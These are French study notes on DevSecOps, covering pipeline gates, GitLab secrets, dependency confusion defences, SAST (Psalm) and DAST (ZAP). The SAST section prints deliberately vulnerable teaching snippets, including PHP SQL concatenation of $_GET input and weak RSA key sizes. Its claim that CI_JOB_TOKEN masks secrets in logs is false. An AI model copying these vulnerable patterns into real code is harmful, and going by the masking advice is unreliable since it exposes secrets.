* **Surveillance continue** : Surveillez régulièrement les activités et les journaux des agents de build pour détecter tout comportement inhabituel.
* **Mises à jour régulières** : Mettez à jour le serveur de build et les agents avec les correctifs de sécurité.
* **Audits de sécurité** : Effectuez des audits de sécurité périodiques pour identifier et corriger les vulnérabilités.
* **Suppression des paramètres par défaut et renforcement de la configuration** : Veillez à renforcer la sécurité de votre serveur de build et à supprimer tous les identifiants par défaut et les configurations faibles.

---

#### Securing the Build Pipeline

**Portes d’accès**

Les *portes d’accès*, également appelées *gates* ou *points de contrôle*, servent de "stages" (étapes) dans un pipeline de développement logiciel. Elles garantissent que le code ne progresse dans le pipeline qu’après avoir satisfait à des critères de qualité et de sécurité prédéfinis. Les portes d’accès sont essentielles pour renforcer le contrôle, l’assurance qualité et la sécurité du processus de développement. C’est bénéfique pour tout le monde.

* **Contrôle renforcé** : Les portes d’accès offrent des points de contrôle dans le pipeline, permettant une progression maîtrisée entre les étapes.
* **Contrôle qualité** : Elles garantissent que le code répond aux normes de qualité définies avant d’avancer.
* **Vérifications de sécurité** : Elles permettent des évaluations de sécurité, comme des analyses de vulnérabilités, avant le déploiement.

**Étapes de mise en œuvre :**

* **Approbations manuelles** : Exiger une approbation manuelle avant de passer à l’étape suivante, pour garantir des revues approfondies.
* **Tests automatisés** : Mettre en place des portes de test automatisées pour la qualité du code, les tests unitaires, les tests d’intégration, etc.
* **Analyses de sécurité** : Intégrer des outils d’analyse de sécurité pour détecter les vulnérabilités dans la base de code.
* **Portes de publication** : Utiliser des portes pour vérifier la documentation, la gestion des versions et la conformité.
* **Validation de l’environnement** : Valider la préparation de l’environnement cible avant le déploiement.
* **Plan de retour en arrière** : Inclure une porte pour un plan de rollback bien défini en cas de problème après le déploiement.
* **Surveillance** : Mettre en œuvre des portes de surveillance pour évaluer les performances après le déploiement.
* **Portes parallèles** : Exécuter certaines portes en parallèle pour accélérer le pipeline sans compromettre la qualité.
* **Audit** : Revoir régulièrement la configuration et les résultats des portes pour garantir leur efficacité.

---

#### **Protection de l’environnement de build**

Protéger votre environnement de build est essentiel pour éviter de compromettre votre pipeline de production à cause d’un *runner* partagé entre DEV et PROD. Voici quelques étapes à suivre pour renforcer la sécurité :

* **Isolation des environnements**
Séparez autant que possible vos pipelines DEV et PROD. Utilisez des *runners* distincts ou des tags de *runner* spécifiques pour les builds DEV et PROD. Cela garantit qu’une compromission dans l’environnement DEV n’impacte pas directement PROD. De cette manière, il est impossible de compromettre PROD comme démontré dans cette tâche.

* **Accès restreint aux jobs CI/CD**
Limitez l’accès à la machine hôte du *runner*. Seul le personnel autorisé doit avoir accès aux machines exécutant le GitLab Runner. Mettez en place des contrôles d’accès stricts et surveillez les accès non autorisés. GitLab propose une fonctionnalité de « CI/CD Protected Environments » qui permet de définir des contrôles d’accès pour restreindre les déploiements selon les environnements. Les fonctions de permissions permettent de limiter et d’assigner les droits de modification des configurations CI/CD, y compris le fichier `.gitlab-ci.yml`.

* **Surveillance et alertes**
Mettez en œuvre un système de surveillance et d’alertes pour votre pipeline CI/CD et vos *runners*. Configurez des alertes pour toute activité suspecte ou pour les échecs de build, signes potentiels d’une compromission. Révisez et auditez régulièrement les permissions d’accès, en particulier pour les environnements et les configurations CI/CD. Révoquez les accès des utilisateurs ou rôles qui n’en ont plus besoin.

---

#### **Protection des secrets de build**

Protéger les secrets de build, même en utilisant les variables CI/CD de GitLab, est essentiel pour garantir la sécurité de vos pipelines. GitLab CI/CD propose une fonctionnalité appelée **variables masquées** (*masked variables*) pour éviter que les secrets ne soient exposés dans les journaux. Voici comment utiliser cette fonctionnalité :

**Masquage des variables**
Vous pouvez masquer des variables dans votre fichier `.gitlab-ci.yml` en utilisant la variable prédéfinie `CI_JOB_TOKEN`. Ce jeton est automatiquement défini par GitLab et peut être utilisé pour masquer toute valeur de variable que vous souhaitez garder confidentielle.

Par exemple, si vous avez une variable nommée `MY_SECRET_KEY`, vous pouvez l’utiliser comme ceci :

```yaml
my_job:
  script:
    - echo "$MY_SECRET_KEY" # Ceci exposera le secret
    - echo "masqué : $CI_JOB_TOKEN" # Ceci masquera le secret
```

**Utiliser des variables sécurisées**
Si vous souhaitez stocker des secrets de manière sécurisée dans GitLab, vous pouvez utiliser les variables CI/CD de GitLab avec l’option **Masqué** activée. Ces variables sont stockées de manière sécurisée et ne sont jamais affichées dans les journaux des jobs, même si elles sont utilisées directement dans vos scripts.

Pour créer une variable sécurisée :

* Allez dans le projet GitLab.
* Naviguez vers **Paramètres > CI/CD > Variables**.
* Ajoutez une nouvelle variable, cochez la case **Masqué**, puis renseignez la valeur.

Une fois la variable ajoutée, vous pouvez l’utiliser dans votre fichier `.gitlab-ci.yml` sans craindre qu’elle soit exposée dans les journaux.

**Remarque** : Assurez-vous que vos scripts de jobs n'affichent pas accidentellement des informations sensibles, même lorsque vous utilisez des variables masquées. Vérifiez bien vos scripts pour éviter toute fuite involontaire de secrets.

**Contrôle d’accès**
Limitez l’accès aux variables CI/CD et aux journaux. Seules les personnes autorisées doivent pouvoir consulter les journaux de jobs et les variables dans GitLab. Vous pouvez configurer des contrôles d’accès au niveau du projet ou du groupe pour cela.

---


---
## Security in the pipeline

### Dependency management

* c'est librairie en pythom `from math import` par exemple 

* y'en à deux type : interne et externe 


#### Sécurisation des librairie externe 

Il est difficile de se défendre contre les attaques visant les dépendances externes, car elles sont très nombreuses et de nouvelles vulnérabilités sont découvertes chaque jour. Cependant, certaines mesures peuvent être prises pour limiter les risques :

* **Veillez à mettre à jour et à appliquer des correctifs aux dépendances régulièrement.** Cela inclut les correctifs d'urgence en cas de découverte d'une vulnérabilité suffisamment grave.
* **Les dépendances peuvent parfois être copiées et hébergées en interne.** Cela permet de réduire la surface d'attaque.
* **L’intégrité des sous-ressources (Sub-resource Integrity)** peut être utilisée pour empêcher le chargement de bibliothèques JS altérées. Dans l’inclusion HTML, le hash de la bibliothèque JS peut être ajouté. Les navigateurs web modernes vérifieront le hash de la bibliothèque, et si celui-ci ne correspond pas, la bibliothèque ne sera pas chargée.

---
#### Sécurisation des librairie interne

**Préoccupations en matière de sécurité**

Les dépendances internes présentent des préoccupations similaires à celles des dépendances externes. Bien que les dépendances internes permettent de standardiser un processus, si une vulnérabilité y est présente, elle affectera plusieurs applications au sein de l’organisation. Il est donc nécessaire de **réaliser des tests de sécurité sur nos dépendances avant leur mise à disposition**.

Un autre problème est que **les dépendances internes peuvent très rapidement devenir du code obsolète**. Le développeur qui a créé et maintenu la dépendance peut avoir quitté l’organisation, ce qui signifie que cette dépendance ne reçoit plus de mises à jour. Si cette dépendance est utilisée dans plusieurs applications, cela peut devenir critique en cas de découverte d’une vulnérabilité. Ce problème est accentué si la documentation n’est pas tenue à jour, rendant difficile pour une nouvelle personne de prendre la relève.

Une **préoccupation de sécurité propre aux dépendances internes est leur stockage**. Nous voulons que tous les développeurs puissent accéder à une dépendance pour l’utiliser, mais pas pour la modifier. Si tous les développeurs peuvent la modifier, il suffirait qu’un seul soit compromis pour affecter plusieurs applications. **Il est donc essentiel de protéger l’accès en écriture** aux dépendances. Dans certaines organisations, même **l’accès en lecture est restreint** afin de réduire davantage la surface d’attaque.


**Outils**

Des applications et outils doivent être utilisés pour gérer efficacement les dépendances internes. Ces outils varient selon les besoins.

* Si nous développons uniquement dans un **langage unique** comme Python, nous pourrions simplement héberger un **serveur de dépôt PyPi interne**. Cela permettrait d’ajouter et d’installer des paquets comme avec `pip` et le dépôt PyPi public.

* Si nous développons dans **plusieurs langages**, nous pourrions utiliser un **gestionnaire de dépendances comme JFrog Artifactory**.
  JFrog Artifactory permet de gérer les dépendances de manière centralisée et de les intégrer au pipeline DevOps. Pendant que les développeurs écrivent du code, ils peuvent utiliser les différentes dépendances hébergées sur Artifactory. Ce dernier permet aussi de **gérer les dépendances externes utilisées en interne**, offrant une **source unique pour toutes les dépendances**.

Bien que ces outils soient très utiles pour la gestion des dépendances internes, **leur compromission pourrait avoir un impact majeur**. Une attaque courante contre les gestionnaires de dépendances est **la "Dependency Confusion"**, qui sera abordée plus en détail dans la tâche suivante.

---
#### Theory of a Dependency Confusion


---


-
#### Exploitation of Dependency Confusion

**Défenses**

La protection des dépendances internes est un effort de sécurité considérable. Étant donné que nous devons créer, maintenir et héberger ces dépendances nous-mêmes, le projet de sécurité est bien plus vaste que celui des dépendances externes. Les stratégies de défense suivantes doivent être envisagées pour toutes les dépendances internes :

* Les dépendances internes doivent être activement maintenues. Cela garantira que les vulnérabilités présentes dans ces dépendances n’affectent pas plusieurs applications et services.
* L’infrastructure d’hébergement des dépendances internes doit être sécurisée. Le livre blanc de Microsoft suivant met en avant trois domaines d’attention clés :

  * Référencer un seul flux privé, et non plusieurs. Cela contribue à se protéger contre les attaques par confusion de dépendances. Dans notre exemple en Python, nous utiliserions alors l’argument `--index-url` au lieu de `--extra-index-url` pour indiquer que le paquet doit être récupéré depuis l’index spécifié.
  * Protéger vos paquets en utilisant des portées contrôlées. En contrôlant les portées des dépendances, on s’assure qu’elles sont limitées aux applications qui en ont réellement besoin.
  * Utiliser les fonctionnalités de vérification côté client. Des contrôles comme l’intégrité des sous-ressources (sub-resource integrity) ou le verrouillage de version permettront aux applications et services de détecter l’introduction de code malveillant dans une dépendance et de refuser de l’exécuter.
* En tant que mesure de défense supplémentaire contre les attaques par confusion de dépendances, les noms des dépendances internes peuvent être enregistrés sur les gestionnaires de paquets externes sans le code source afin de revendiquer le nom. Cela empêchera un attaquant d’enregistrer un paquet portant un nom similaire.


---
### SAST


* Il y deux types de review de code : manual et automated  
   → IL faut les deux pour un max de sécurité


**Analyse statique de la sécurité des applications (SAST)**

L’analyse statique de la sécurité des applications (SAST) fait référence à l’utilisation d’outils automatisés pour l’analyse de code. L’objectif n’est pas de remplacer les revues de code manuelles, mais de fournir un moyen simple d’automatiser des vérifications de code élémentaires afin d’identifier rapidement des vulnérabilités durant le processus de développement, sans nécessiter l’intervention d’un expert spécialisé.

Le SAST complète d’autres techniques telles que l’analyse dynamique de la sécurité des applications (DAST) ou l’analyse de la composition logicielle (SCA), pour offrir une approche globale de la sécurité applicative tout au long du cycle de développement. Comme toute autre technique, le SAST présente des avantages et des inconvénients dont il faut avoir conscience :

**Avantages :**

* Il ne nécessite pas une instance en cours d’exécution de l’application cible.
* Il offre une excellente couverture fonctionnelle de l’application.
* Il est rapide par rapport aux techniques dynamiques.
* Les outils SAST indiquent précisément où se trouvent les vulnérabilités dans le code.
* Facile à intégrer dans un pipeline CI/CD.

**Inconvénients :**

* Le code source d’une application n’est pas toujours disponible (applications tierces).
* Sujet aux faux positifs.
* Incapable d’identifier des vulnérabilités de nature dynamique.
* Les outils SAST sont majoritairement spécifiques à un langage. Ils ne peuvent analyser que les langages qu’ils connaissent.

---

#### MANUAL

**SAST en coulisses**

Bien que chaque outil SAST soit différent, la majorité réalise deux tâches principales :

* **Transformer le code en un modèle abstrait** : Les outils SAST ingèrent généralement le code source et produisent une représentation abstraite pour l’analyse. La plupart utilisent des *arbres de syntaxe abstraite* (AST), mais certains outils peuvent utiliser d’autres structures propriétaires équivalentes. Cela permet une analyse indépendante du langage de programmation utilisé. Cette étape est cruciale : toute fonctionnalité mal traduite dans l’AST risque de ne pas être correctement analysée du point de vue de la sécurité.

* **Analyser le modèle abstrait pour identifier des vulnérabilités** : Différentes techniques d’analyse sont utilisées pour rechercher d’éventuelles failles dans le modèle de code.

Dans ce module, nous ne couvrirons pas en détail la modélisation du code, car vous n’aurez pas à vous en soucier en tant qu’utilisateur. Nous allons plutôt nous concentrer sur les différentes techniques d’analyse couramment utilisées par les outils SAST :

---

**Analyse sémantique**

L’analyse sémantique peut être comparée à une recherche de fonctions potentiellement dangereuses lors d’une revue de code manuelle. Elle vise à détecter une utilisation risquée de certaines fonctions dans un contexte localisé.

Exemple : recherche d’appels à `mysqli_query()` avec concaténation directe de paramètres GET ou POST dans la requête SQL :

```php
mysqli_query($db, "SELECT * from users where username=".$_GET['username']);
```

---

**Analyse de flux de données (Dataflow Analysis)**

Il arrive que des fonctions potentiellement dangereuses soient utilisées, mais qu’on ne puisse pas confirmer la présence d’une vulnérabilité en se basant uniquement sur le contexte local.

Exemple :

```php
function db_query($conn, $query){
    $result = mysqli_query($conn, $query);
    return $result;
}
```

Ici, le code de la fonction ne permet pas de savoir s’il existe une vulnérabilité. L’analyse du contexte local ne suffit pas.

L’analyse de flux de données trace comment les informations provenant de l’utilisateur (inputs) circulent jusqu’à des fonctions potentiellement dangereuses. Dans cette terminologie :

* Les données manipulables par l’utilisateur sont appelées **sources**.
* Les fonctions vulnérables sont appelées **sinks**.

Si des données passent d’une source à un sink sans être filtrées, cela constitue une vulnérabilité.

Revenons à `db_query()` : l’analyse devra retrouver toutes les utilisations de cette fonction, puis vérifier si une entrée non filtrée (source) finit dans la requête de `mysqli_query()` (sink).

---

**Graphes de flux de données**

Les outils SAST peuvent générer des graphes qui illustrent visuellement ces parcours de données.

---

**Analyse de flux de contrôle (Control Flow Analysis)**

Analyse l’ordre d’exécution du code pour détecter des conditions de concurrence (race conditions), des variables non initialisées ou des fuites de ressources.

Exemple en Java :

```java
String cmd = System.getProperty("cmd");  
cmd = cmd.trim();
```

Si la propriété `cmd` n’est pas définie, `System.getProperty()` retourne `NULL`. L’appel à `trim()` sur une variable nulle provoquera une exception à l’exécution.

---

**Analyse structurelle**

Analyse des structures spécifiques au langage. Cela inclut :

* L'application des bonnes pratiques dans la déclaration de classes.
* L’identification de blocs de code inaccessibles.
* L’utilisation correcte des blocs try/catch.
* La détection de matériel cryptographique peu sécurisé (clés ou vecteurs d’initialisation faibles).

Exemple :

```php
$options = array('private_key_bits' => 1024, 'private_key_type' => OPENSSL_KEYTYPE_RSA);  
$res = openssl_pkey_new($options);
```

Ici, une clé RSA de 1024 bits est utilisée, ce qui est considéré comme insuffisant selon les standards actuels.

---

**Analyse de configuration**

Recherche des erreurs de configuration applicative plutôt que dans le code lui-même.

Exemple : les applications sous IIS utilisent `web.config`, celles en PHP ont un fichier `php.ini`, etc. Ces fichiers peuvent contenir des options à risque.

Exemples de directives PHP qui généreraient probablement une alerte :

```ini
allow_url_include = On
allow_url_fopen = On
```

Ces paramètres facilitent certaines attaques comme RFI, SSRF, etc.

---


#### AUTO

**Nouvelle analyse de notre application avec Psalm**

Nous allons commencer par utiliser **Psalm** (PHP Static Analysis Linting Machine), un outil simple permettant d’analyser du code PHP. L’outil est déjà installé dans le cadre du projet de l’application, vous n’avez donc pas besoin de l’installer. Toutefois, si nécessaire, vous pouvez consulter la documentation en ligne de Psalm pour obtenir les instructions d’installation.

`../psalm --no-cache --taint-analysis` ← pour la lancer 

---

**Gérer les faux positifs et les faux négatifs**

Quel que soit l’outil SAST utilisé, des erreurs seront toujours présentes. Pour rappel, nous nous intéressons principalement aux deux types d’erreurs suivants :

* **Faux positifs** : L’outil signale une vulnérabilité qui n’est pas réellement présente dans le code.
* **Faux négatifs** : L’outil ne signale pas une vulnérabilité qui est pourtant bien présente dans le code.

Ces erreurs peuvent survenir parce que l’outil n’évalue pas correctement le code cible, mais elles peuvent également être causées par une mauvaise utilisation de l’outil de notre part en tant qu’utilisateurs.

Voici un exemple sous forme de tableau :

| Variable       | Revue manuelle   | Revue avec Psalm |   Verdict    |
| -------------- | ---------------- | --------------   | ------------ |
| `$sql`         | Vulnérable       | Vulnérable       | OK           |
| `$sql2`        | Non vulnérable   | Vulnérable       | Faux positif |
| `$sql3`        | Vulnérable       | Non vulnérable   | Faux négatif |


---
---

#### integration de sast 





**Intégration CI/CD** :
À chaque *pull request* ou *merge*, les outils SAST vont analyser le code à la recherche de vulnérabilités. Vérifier les *pull requests* garantit que le code fusionné a subi au minimum une vérification de sécurité de base.
Dans certains cas, au lieu d’analyser chaque *pull request*, exécuter les analyses SAST uniquement lors des fusions (*merges*) peut permettre d’éviter les ralentissements dans la chaîne de développement, en évitant de faire attendre tous les développeurs pour des analyses complètes.

**Intégration à l’IDE** :
Les outils SAST peuvent être intégrés directement dans l’IDE préféré des développeurs, au lieu d’attendre une *pull request* ou une fusion. Ainsi, le code peut être corrigé le plus tôt possible, ce qui permet d’économiser du temps par la suite dans le projet.


* des que ton ide te dit où il y a une erreur bim c'est du SAST


---

### DAST

/!\ Ne check pas le code d'une app donc ça ne remplace pas le SAST attention


**Qu’est-ce que le DAST ?**

Le **Dynamic Application Security Testing** (DAST) est le processus consistant à tester une instance en cours d’exécution d’une application web pour y détecter des failles et des vulnérabilités. Il repose sur une approche de type boîte noire (*black-box*), où les vulnérabilités sont identifiées de la même manière qu’un attaquant le ferait.
En résumé, le DAST identifie des vulnérabilités en tentant de les exploiter, soit manuellement, soit à l’aide d’outils automatisés.

En testant l’application depuis une perspective externe, nous nous détachons de son fonctionnement interne pour nous concentrer sur les vulnérabilités qu’un attaquant serait susceptible de découvrir.
Cela signifie que les résultats du DAST pointent souvent vers des vulnérabilités à **prioriser**, car elles peuvent être découvertes sans connaître l’application.

Il est important de noter que le DAST **ne remplace pas** les autres méthodes de détection des vulnérabilités, mais les **complète**. Un cycle de développement sécurisé combine généralement plusieurs techniques afin de couvrir un maximum de risques.

---

#### DAST manuel vs automatisé

Il existe deux façons d’effectuer un DAST :

* **DAST manuel** : Un ingénieur sécurité effectue manuellement des tests sur l’application pour identifier des vulnérabilités.
* **DAST automatisé** : Un outil automatisé scanne l’application web pour en détecter les failles.

Les deux approches sont complémentaires et peuvent être utilisées à différentes étapes du **SDLC** (*Software Development Lifecycle*).
Les meilleurs résultats sont souvent obtenus en combinant outils **manuels** et **automatisés**, plutôt qu’en se reposant sur l’un ou l’autre.

Le **DAST manuel** permet de détecter des faiblesses que les outils automatisés ne perçoivent pas, car ils ne comprennent pas le comportement fonctionnel de l’application.

L’inconvénient d’une approche entièrement manuelle est que lancer des tests à chaque *commit* ou petite modification ralentirait beaucoup le développement. C’est ici que le **DAST automatisé** excelle : il permet d’exécuter rapidement de nombreux tests sans intervention humaine.

---

#### DAST dans le SDLC

Dans un **SSDLC** (Secure Software Development Lifecycle), l’usage typique est le suivant :


* Le **DAST automatisé** est exécuté pendant les phases de test. Ces outils sont généralement optimisés pour la rapidité, afin de fournir un retour rapide aux développeurs, contrairement à un scanner de vulnérabilités classique qui pourrait prendre plusieurs heures.
* Le **DAST manuel**, quant à lui, est souvent effectué de manière périodique pour ne pas ralentir le développement. Il est courant de lancer des scans manuels de manière hebdomadaire pendant le développement, mais cela dépend du projet. Ces scans peuvent être plus intensifs afin de révéler des vulnérabilités plus profondes.

Lorsque l’application est prête à passer en production, il est recommandé d’effectuer un **pentest complet** pour détecter toute faille dans la version finale.

> **Remarque** : La littérature fait souvent référence au **DAST automatisé** simplement sous le nom de DAST, tandis que le **DAST manuel** est considéré comme faisant partie des tests d’intrusion sur les applications web. On parle parfois de "DAST traditionnel" pour ce dernier.

---

#### Avantages et inconvénients du DAST

**Avantages :**

* Détecte les vulnérabilités **pendant l’exécution** de l’application, y compris celles liées au déploiement.
* Identifie des vulnérabilités comme le **HTTP Request Smuggling**, l’**empoisonnement du cache**, ou la **pollution des paramètres**, que le SAST ne détecte pas.
* **Indépendant du langage** utilisé : comme c’est une approche boîte noire, le langage n’a pas d’importance.
* Moins de **faux positifs** que le SAST.
* Peut détecter certaines **failles de logique métier** (selon l’outil).

**Inconvénients :**

* **Couverture de code limitée** : certains scénarios spécifiques peuvent ne pas être testés.
* Certaines failles sont plus **difficiles à détecter** qu’avec l’analyse statique.
* Les applications modernes basées sur **JavaScript côté client** sont difficiles à analyser pour certains outils.
* Ne fournit souvent **pas de solution détaillée** pour corriger la faille (le code n’est pas connu).
* Certains scans peuvent être **lents**.
* **Nécessite une application en fonctionnement** pour pouvoir être testé.

---

#### Prêt pour le DAST ?

La plupart du temps, le DAST est présenté comme une série de tests automatisés. Cependant, il est utile de comprendre aussi le fonctionnement **manuel** pour mieux saisir ce que font les outils en coulisses.

De manière générale, un outil DAST effectue au minimum les deux étapes suivantes :

* **Exploration / Crawling** : L’outil explore l’application web pour en dresser la carte et lister les pages et paramètres attaquables.
* **Analyse de vulnérabilités** : L’outil tente d’exploiter ces pages et paramètres avec des charges d’attaque. L’utilisateur peut souvent personnaliser le type d’attaques selon l’application ciblée.


#### Spiders and Crawlers

* Ils permettent de scan toutes les urls/page d'un site


Pour surmonter les limitations du **spider classique de ZAP**, ZAP peut utiliser un navigateur réel comme **Firefox** ou **Chrome** pour traiter les scripts attachés au site web et récupérer le code HTML résultant.
Au lieu d’extraire les liens directement depuis les réponses HTTP, ZAP les récupère depuis le résultat du traitement du site par le navigateur.

Cela peut être réalisé en utilisant le **spider AJAX**.

#### Authenticated Scans

* on peut faire un scan pour ce co sur le site 

1. faut record un zest script (le paramétré)
2. open browser tout à droite de zap
3. tu te co puis tu stop le record en rappuiyant sur le bouton de record
4. tu click sur run sur le script
5. tu peux lui ajouter un context 
6. lance un spider avec un user 
7. est bim :) 

#### Integrating DAST into the development pipeline


Ajouter le **DAST** à votre processus de développement peut sembler assez simple, mais cela comporte certains pièges :

* Il faut **décider à quelles étapes** du processus de développement les analyses seront lancées.
* Il faut **déterminer ce qui déclenchera une analyse**. Les scans peuvent être exécutés à chaque *commit* de code ou à des intervalles planifiés.
* Il faut **définir l’intensité de chaque analyse**. Effectuer un scan de vulnérabilités complet sur une application de taille moyenne peut prendre beaucoup de temps, et il est important de **ne pas ralentir l’équipe de développement**.


* Dans le fichier on met ça comme code ce qui permet un scan zap


### Mother's secret 


---
## Le reste /!\ à finir
## Container security 

### Intro to containerisation

### Intro to docker

### Intro to Kubernetes 

### Container Vulnerabilities

### Container Hardening

---

## Infrastructure as code 

### Intro to IaC

### On-premises IaC

### Cloud based IaC